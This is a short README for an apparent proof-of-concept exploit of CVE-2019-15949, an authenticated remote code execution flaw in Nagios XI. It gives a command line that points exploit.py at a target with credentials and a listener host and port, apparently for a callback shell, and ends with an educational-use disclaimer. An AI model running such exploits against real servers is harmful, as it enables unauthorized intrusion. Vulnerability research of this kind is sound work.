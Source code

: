 # Nagiosxi CVE-2019–15949

A proof-of-concept for CVE-2019–15949 Nagiosxi Authenticated RCE

## Getting Started

### Executing program

* With python3
```
python3 exploit.py -t 'http://nagios.xi/' -d /nagiosxi/ -u username -p password -lh 127.0.0.1 -lp 1337
```

## Help

For help menu:
```
python3 exploit.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.